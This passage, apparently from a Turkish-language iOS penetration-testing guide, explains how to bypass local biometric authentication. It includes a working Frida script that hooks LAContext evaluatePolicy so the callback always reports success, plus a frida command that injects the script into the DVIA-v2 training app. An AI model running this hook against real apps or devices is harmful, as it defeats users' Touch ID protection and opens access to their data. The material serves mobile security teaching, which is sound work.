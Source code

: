 ```swift
[TouchIDAuthentication showAlert:@"Your device doesn't support Touch ID or you haven't configured Touch ID authentication on your device" withTitle:@"Error"];
});
}
}
```
Yerel Kimlik Doğrulama'nın **bypass** edilmesi için bir Frida scripti yazılmıştır. Bu script, **evaluatePolicy** kontrolünü hedef alır ve geri çağrısını keserek **success=1** döndürmesini sağlar. Geri çağrının davranışını değiştirerek, kimlik doğrulama kontrolü etkili bir şekilde bypass edilir.

Aşağıdaki script, **evaluatePolicy** yönteminin sonucunu değiştirmek için enjekte edilmiştir. Geri çağrının sonucunu her zaman başarıyı gösterecek şekilde değiştirir.
```swift
// from https://securitycafe.ro/2022/09/05/mobile-pentesting-101-bypassing-biometric-authentication/
if(ObjC.available) {
console.log("Injecting...");
var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
Interceptor.attach(hook.implementation, {
onEnter: function(args) {
var block = new ObjC.Block(args[4]);
const callback = block.implementation;
block.implementation = function (error, value)  {

console.log("Changing the result value to true")
const result = callback(1, null);
return result;
};
},
});
} else {
console.log("Objective-C Runtime is not available!");
}
```
Frida betiğini enjekte etmek ve biyometrik kimlik doğrulamayı atlatmak için aşağıdaki komut kullanılır:
```bash
frida -U -f com.highaltitudehacks.DVIAswiftv2 --no-pause -l fingerprint-bypass-ios.js
```
## Hassas Fonksiyonelliklerin IPC Üzerinden Açığa Çıkması

### Özel URI İşleyicileri / Deeplinks / Özel Şemalar

{{#ref}}
ios-custom-uri-handlers-deeplinks-custom-schemes.md
{{#endref}}

### Evrensel Bağlantılar

{{#ref}}
ios-universal-links.md
{{#endref}}
